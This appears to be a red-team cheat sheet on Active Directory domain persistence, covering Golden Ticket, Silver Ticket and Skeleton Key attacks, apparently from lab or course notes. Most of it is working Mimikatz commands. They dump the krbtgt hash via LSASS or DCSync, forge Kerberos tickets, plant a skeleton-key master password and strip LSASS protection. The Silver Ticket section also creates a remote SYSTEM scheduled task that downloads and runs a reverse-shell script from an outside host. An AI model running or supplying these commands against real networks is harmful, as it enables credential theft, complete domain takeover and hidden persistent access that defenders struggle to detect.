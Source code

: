 # Domain Persistence
---
# Navigation
- **[[#Golden Ticket]]**
	- [[#Definition]]
	- [[#Attacking]]
- **[[#Silver Ticket]]**
	- [[#Definition]]
	- [[#Attacking]]
	- [[#Getting a reverse shell]]
- **[[#Skeleton key]]**
	- [[#Attack]]
---
# Golden Ticket
## Definition
A valid **TGT as any user** can be created **using the NTLM hash of the krbtgt AD account**. The advantage of forging a TGT instead of TGS is being **able to access any service** (or machine) in the domain and the impersonated user.
The **krbtgt** account **NTLM hash** can be **obtained** from the **lsass process** or from the **NTDS.dit file** of any DC in the domain.
## Attacking
1. Dumping hashes (Requires DA privilege)
```powershell
#On DC
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /inject /name:krbtgt"'

#Using DcSync (Quiter)
Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt"'
```
2. Generating the ticket
```powershell
#On any machine
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<DOMAIN-FQDN> /sid:<Domain-SID> /krbtgt:<NTLM> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
>Note: `/ptt` injects the ticket in the current powershell process (no need to save  the ticket on disk).Alternatively you can use `/ticket` to save the  ticket in a file for later use.

3. Confirm by running `klist` to view cached tickets in memory
```powrshell
klist
```
**Once** you have the **golden Ticket injected**, you can access the shared files **(C$)**, and execute services and WMI, so you could use **psexec** or **wmiexec** to obtain a shell (looks like yo can not get a shell via winrm).

## Further reading
- Explained -> [**Golden-tickets**](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets)
- Cheatsheet -> [**Hacktricks**](https://book.hacktricks.xyz/windows/active-directory-methodology/golden-ticket)
--- 
# Silver Ticket
## Definition
The Silver ticket attack is based on **crafting a valid TGS for a service once the NTLM hash of service is owned** (like the **PC account hash**). Thus, it is possible to **gain access to that service** by forging a custom TGS **as any user**.
## Attacking
1. Dumping hashes (Requires DA privilege)
```powershell
#On DC
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /inject /name:krbtgt"'

#Using DcSync (Quiter)
Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt"'
```
2. Forging the ticket
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:<Domain-FQDN> /sid:<Domain-SID> /rc4:<Service-NTLM> /user:Administrator /service:<SPN> /target:<Target-Computer> /ptt"'
```
> Note:
> `/Service`: is the SPN name of service for which TGS is to be created.
  `/Target`: server hosting the attacked service for which the TGS ticket was cracked.
 
## Getting a reverse shell.

**HOST**  service
```powershell
#Forging TGS 
Invoke-Mimikatz -Command '"kerberos::golden /domain:<Domain-FQDN> /sid:<Domain-SID> /rc4:<Service-NTLM> /user:Administrator /service:HOST /target:<Target-Computer> /ptt"'
#Scheduling task in remote computers
#Check you have permissions to use schtasks over a remote server
schtasks /S some.vuln.pc
#Create scheduled task, first for exe execution, second for powershell reverse shell download
schtasks /create /S some.vuln.pc /SC weekly /RU "NT Authority\System" /TN "SomeTaskName" /TR "C:\path\to\executable.exe"
schtasks /create /S some.vuln.pc /SC Weekly /RU "NT Authority\SYSTEM" /TN "SomeTaskName" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1''')'"
#Check it was successfully created
schtasks /query /S some.vuln.pc
#Run created schtask now
schtasks /Run /S mcorp-dc.moneycorp.local /TN "SomeTaskName"
```
> Useful tool: [**Powercat**](https://github.com/besimorhino/powercat)

## Further reading
- Cheatsheet -> [**Hacktricks**](https://book.hacktricks.xyz/windows/active-directory-methodology/silver-ticket)
- Explained -> [**Silver-tickets**](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets)

# Skeleton key
The Skeleton Key is a particularly scary piece of malware targeted at Active Directory domains to make it alarmingly easy to hijack any account. This malware injects itself into **LSASS** and creates a master password that will work for any account in the domain. Existing passwords will also continue to work, so it is very difficult to know this attack has taken place unless you know what to look for.
## Attack
Requires DA privileges
```powershell
Invoke-Mimikatz -Command '"misc::skeleton"'

# Now you can authenticate as any user with the default password of --> Mimikatz
```
In case lssas is running as a protected process we can still use skeleton key but it needs the mimikatz driver (mimideiv.sys) on disk of the target.
```powershell
mimikatz
privilege::debug
!+
!processprotect /process:lssas.exe /remove
misc::skeleton
!-

#Very Noisy in logs
```
 > **Note:** Rebooting a domain controller will remove this malware and it will have to be redeployed by the attacker.
